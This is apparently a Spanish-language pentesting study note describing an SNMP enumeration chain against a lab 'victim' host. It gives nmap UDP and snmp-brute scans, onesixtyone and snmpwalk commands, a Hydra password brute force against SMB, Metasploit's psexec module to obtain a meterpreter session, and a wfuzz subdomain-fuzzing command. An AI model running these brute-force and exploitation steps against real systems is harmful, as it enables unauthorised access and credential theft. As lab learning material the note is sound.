 
El protocolo SNMP trabaja por UDP así que tendremos que realizar el escaneo de [[00. Apuntes/01. Herramientas/NMAP|NMAP]] a través de este protocolo con el puerto 161.
haremos un primer escaneo
`nmap -p 161 -sU <IP_Victima>`
Y un segundo escaneo con
`nmap -sU -p 161 --script=snmp-brute <IP_Victima>`
El cual nos muestra los comunity names

Utilizamos la herramienta [[ONESIXTYONE]] con los siguientes parámetros. Esta herramienta sirve para obtener la clave para poder enumerar mejor este protocolo SNMP, hac3e lo mismo que el comando anterior de [[NMAP]]
`onesixtyone -c /usr/share/wordlists/rockyou.txt <Ip_Victima>`

Ahora usaremos la herramienta [[SNMPWALK]] con los siguientes parámetros y la clave obtenida con la herramienta ONESIXTYONE o [[NMAP]]
`snmpwalk -v 2c -c <clave/comunity names> <Ip_Vixctima>`

La información obtenida no es legible así que usaremos el siguiente script de [[NMAP]] para guardarlo en un fichero
`nmap -sU -p 161 --script snmp-* <IP_Victima> > snmp_output`

En el archivo creado se guardara toda la información necesaria sobre el servicio en el que podemos encontrar usuarios, estos los deberemos de guardar en un fichero .txt para mas adelante usarlos para hacer fuerza bruta con [[HYDRA]].
`hydra -L users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt <IP_Victima> smb`

Con los usuarios encontrados probamos a acceder al servicio a través de [[METASPLOIT]]
usaremos el siguiente modulo
`use exploit/windows/smb/psexec`

Obtendremos una sesión de meterpreter.




Si al enumerar encontramos un dominio o un dato relevante podemos añadirlo al fichero `/etc/hosts` junto con la IP de la maquina victima y así poder ver que hay en el dominio en este caso.
Una vez hayamos conseguido acceder al dominio podremos buscar subdominios utilizando Fuzzing
`wfuzz -c --hc 404 --hl 11 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -H "Host: FUZZ.chaincorp.nyx" -u 192.168.1.120`